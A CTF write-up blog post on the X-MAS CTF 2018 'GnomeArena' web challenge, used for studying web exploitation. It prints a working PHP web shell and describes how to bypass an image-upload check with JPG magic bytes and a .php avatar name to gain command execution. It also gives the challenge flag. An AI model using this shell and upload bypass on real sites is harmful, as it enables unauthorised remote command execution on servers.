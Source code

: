 ```yaml
---
layout: post
title: "X-MAS CTF: GnomeArena: Rock Paper Scissors"
date: 2018-12-21
excerpt: "Cool file upload vulnerability followed by a minimalist php shell!"
tags: [CTF, PHP, Web, File Upload]
comments: true
feature: https://pxt.azureedge.net/blob/68f66c3ddc3acfc4c53157abf92eace202d46db2/static/courses/csintro/conditionals/rock-paper-scissors-items.png
---
```


# X-MAS CTF: GnomeArena: Rock Paper Scissors

The challenge description is:

![Img](/assets/posts_details/XMAS_CTF/gnome/intro.png "Img")

So going to the page we find out that there is a game with a settings page on the top right corner which looks way more interesting for us than the game itself.

![Img](/assets/posts_details/XMAS_CTF/gnome/main.png "Img")

![Img](/assets/posts_details/XMAS_CTF/gnome/settings.png "Img")

So I tried to modify a few parameters and see what changes were in the page. I noticed that the profile picture is stored under ``avatar/name`` and that whenever I change the name the path of the picture changes as well.

![Img](/assets/posts_details/XMAS_CTF/gnome/name.png "Img")

With that in mind, I tried to upload a simple PHP shell to execute commands:

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

However, I got a warning saying that the file needed to be an image. That's when I had an inspiration that helped me solve the challenge.

1. Rename the shell.php to shell.jpg and append at the start of the file JPG's magic number: ``FF D8 FF``. That way, the shell will be recognised as an image but it will be executed later.
2. Change the name to something.php, in this case I used ``root2u.php``.

Then, I just needed to access ``avatar/root2u.php?cmd=`` and use any linux command I liked!

![Img](/assets/posts_details/XMAS_CTF/gnome/rev_1.png "Img")

Now, It's just a matter of time before we find the location of the flag.

![Img](/assets/posts_details/XMAS_CTF/gnome/rev_2.png "Img")

![Img](/assets/posts_details/XMAS_CTF/gnome/flag.png "Img")

And we get our flag: ``X-MAS{Ev3ry0ne_m0ve_aw4y_th3_h4ck3r_gn0m3_1s_1n_t0wn}``.

---

<center>
<i>Diego Bernal Adelantado</i>
</center>
